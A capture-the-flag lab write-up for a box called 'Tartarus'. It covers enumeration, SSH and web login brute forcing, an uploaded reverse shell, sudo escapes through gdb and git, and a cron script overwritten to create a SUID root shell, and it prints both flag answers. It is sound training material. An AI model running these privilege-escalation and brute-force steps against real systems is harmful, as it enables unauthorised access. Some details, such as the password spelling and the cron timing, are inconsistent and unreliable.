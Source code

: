 # Tartarus

export IP=10.10.1.16

## 1 - User flag

Lets start with an nmap scan to check what is running on what ports.

cmd: nmap -sC -sV -oN nmap/initial $IP

```
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 ftp      ftp            17 Jul 05 21:45 test.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.128.84
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 98:6c:7f:49:db:54:cb:36:6d:d5:ff:75:42:4c:a7:e0 (RSA)
|   256 0c:7b:1a:9c:ed:4b:29:f5:3e:be:1c:9a:e4:4c:07:2c (ECDSA)
|_  256 50:09:9f:c0:67:3e:89:93:b0:c9:85:f1:93:89:50:68 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
```

Lets check ftp! <br>
One file as shown by the nmap.
```
vsftpd test file
```

The page only contains the apache default.<br>
lets issue a gobuster <br>

cmd: gobuster dir -u http://$IP -w /usr/share/wordlists/SecLists/Discovery/Web-Content/big.txt -t 80 -x php,html,txt

```
/index.html (Status: 200)
/robots.txt (Status: 200)
/robots.txt (Status: 200)
```

Checking robots.txt

```
User-Agent: *
Disallow : /admin-dir

I told d4rckh we should hide our things deep.
```

Potential user: d4rckh <br>

Lets check the $IP/admin-dir page

```
[TXT]	credentials.txt	2020-07-05 21:45 	760 	 
[TXT]	userid	2020-07-05 21:45 	78 	 
```

Well, a list of users and a list of passwords, lets brute force the SSH. <br>

cmd: hydra -L ./adminDir_files/userid -P ./adminDir_files/credentials.txt ssh://$IP:22

```
RESULTS: No password found
```

Lets check the FTP again...

```
dir
-rw-r--r--    1 ftp      ftp            17 Jul 05 21:45 test.txt


ls -la
drwxr-xr-x    3 ftp      ftp          4096 Jul 05 21:31 ...
-rw-r--r--    1 ftp      ftp            17 Jul 05 21:45 test.txt
```

It was 2 nested folders to find a file

```
-rw-r--r--    1 ftp      ftp            14 Jul 05 21:45 yougotgoodeyes.txt
```

This file have a page path
```
/sUp3r-s3cr3t
```

Lets try to brute force it with the creds we found with burp since it redirects and hydra does not handle that. <br>

First found that the user was: enox <br>
This was possible because the error message was different <br>

Found the password: P@ssword1234<br>

Creds
```
enox:P@assword1234
```

After login, we can upload a file, lets first run gobuster in this directory<br>

cmd: gobuster dir -u http://$IP/sUp3r-s3cr3t -w /usr/share/wordlists/SecLists/Discovery/Web-Content/big.txt  -t 50 -x php,html,txt

```
/authenticate.php (Status: 200)
/home.php (Status: 302)
/images (Status: 301)
/index.html (Status: 200)
```

Lets upload a reverse shell... i'm in<br>

```
whoami
www-data

find / -type f -iname "*user*" -print 2>/dev/null

(...)
/home/d4rckh/user.txt
(...)

cat /home/d4rckh/user.txt
FLAG: 
```

### Answer: 0f7dbb2243e692e3ad222bc4eff8521f

## 2 - Root flag

Just to simple enumeration for privesc, just issued sudo -l

```
(thirtytwo) NOPASSWD: /var/www/gdb 
``

We can, possibly privesc to the account thirtytwo and from there to root . <br>

from gtfobins (to abuse gdb)

```
gdb -nx -ex '!sh' -ex quit
```

To run it as thirtytwo from www-data
```
sudo -u thirtytwo /var/www/gdb -nx -ex '!bash' -ex quit

whoami 
thirtytwo
```

Lets quick enumerate the same way for this new user (sudo -l)

```
User thirtytwo may run the following commands on ubuntu-xenial:
    (d4rckh) NOPASSWD: /usr/bin/git
```

From gtfobins (abuse git)
```
git help config
!/bin/bash

whoami
d4rckh
```

Now we need to escalate from this new user to root.<br>
at his home folder there is a python script which runs as root and is world readable, writable and executable <br>

Since this is world writable, lets modify it

```
"import os;import sys;os.system('cp /bin/bash /home/d4rckh/root; chmod +s /home/d4rckh/root');"
```

From the nature of the script, it seems a crontab script

```
cat /etc/crontab
*/2 *   * * *   root    python /home/d4rckh/cleanup.py
```

And it is, runs every 30 seconds (*/30 minutes)... just wait for the execution.. and yea, we got a suid bash generated by the script!<br>

just issue with -p to maintain privileges
```
./root -p

whoami 
root

cat /root/root.txt
FLAG:7e055812184a5fa5109d5db5c7eda7cd
```

### Answer: 7e055812184a5fa5109d5db5c7eda7cd